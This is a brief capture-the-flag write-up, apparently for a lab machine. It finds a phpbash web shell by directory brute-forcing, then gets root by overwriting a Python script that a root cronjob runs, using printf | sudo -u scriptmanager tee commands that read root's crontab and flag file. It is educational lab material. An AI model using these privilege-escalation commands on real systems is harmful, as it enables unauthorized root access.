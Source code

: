 ## User
Found **/dev** direcotry with drib common.txt list

In there was **phpbash.php** and **phpbash.min.php** giving me access to the system as **www-data** 

## Root
Used **sudo -l** to get more information with. This revealed that **www-data** is able to **sudo -u** as scriptmanager. **scriptmanager** had access to **/scripts/**. 

There was a **test.py** file and a **test.txt** file. **test.txt** was owened by root and **test.py** was owned by **scriptmanager** and the python script was writing some text into **test.txt**, which meant that **test.py** is getting executed by root.

**printf "import os\nos.system(\"whoami > /scripts/test.txt\")" | sudo -u scriptmanager tee /scripts/test.py** showed that the script was getting executed by root continually, which was most likely done by a cronjob.

**printf "import os\nos.system(\"crontab -l -u root > /scripts/test.txt\")" | sudo -u scriptmanager tee /scripts/test.py** proved this theory, as there was a cronjob that exexuts the python script:
```bash
* * * * * cd /scripts; for f in *.py; do python "$f"; done
```

**printf "import os\nos.system(\"cat /root/root.txt> /scripts/test.txt\")" | sudo -u scriptmanager tee /scripts/test.py** provided the root flag,
